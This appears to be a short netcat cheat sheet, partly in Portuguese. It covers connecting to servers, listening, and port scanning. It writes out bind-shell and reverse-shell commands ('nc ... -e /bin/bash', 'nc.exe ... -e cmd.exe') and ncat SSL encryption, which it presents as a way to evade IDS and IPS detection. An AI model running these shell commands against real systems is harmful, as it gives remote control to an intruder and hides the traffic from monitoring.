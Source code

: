 Netcat, known as the "Swiss Army knife of networking," is a versatile command-line tool for reading and writing over network connections. It can be used for port scanning, file transfer, and even as a backdoor. Netcat allows you to establish TCP or UDP connections as both a client and a server, providing flexibility for a variety of applications, such as debugging network services and testing connectivity. It supports multiple protocols, including TCP, UDP, and Unix domain sockets, and can handle both IPv4 and IPv6 connections. It offers options for controlling data flow, setting timeouts, and handling data packets, providing users with precise control over their network interactions.

## How to Interact with a server
`nc host port`

Example: `nc -v www.host.com 21`
Example: `nc -v www.host.com 80`

## Opening a port and connecting
`nc command port`

### Opening a port
Example Windows: `nc.exe -vlp port`

Example Linux: `nc -vlp port`

### Connecting to a port
Example Windows: `nc.exe ip port`

Example Linux: `nc -v ip port`

## Port Scanning
`nc -vnz host port`

Example: `nc -vnz 192.168.0.1 1-1024`

## Bind Shell x Reverse Shell
### Bind Shell
In the Bind Shell, the attacker connects directly to the target's port


Example Linux opening the shell: `nc -vnlp port -e /bin/bash`

Example Windows to connect: `nc.exe -vn host port`


Example Windows opening the shell: `nc.exe -vnlp port -e cmd.exe`

Example Linux  to connect: `nc -vn host port`

### Reverse Shell
In the Reverse shell, the target connects and sends the shell to the attacker


Example Linux opening the port: `nc -vnlp port`

Example  Windows sending the shell: `nc.exe -vn host port -e cmd.exe`


Example Windows opening the port: `nc.exe -vnlp port`

Example Linux sending the shell: `nc -vn host port -e /bin/bash`

## Netcat x Ncat
Netcat has the ability to encrypt the data being passed through the shell, which makes it difficult for an IPS or an IDS to detect any threats


Como criar a chave SSL: `openssl req -x509 -newkey rsa:2048 -keyout chave.pem -out cert.pem -days 10`

Como fazer a comunicação: `ncat -vnlp <port> --ssl-key chave.pem --ssl-cert cert.pem`

Para se conectar: `ncat -vn <host> <port> --ssl`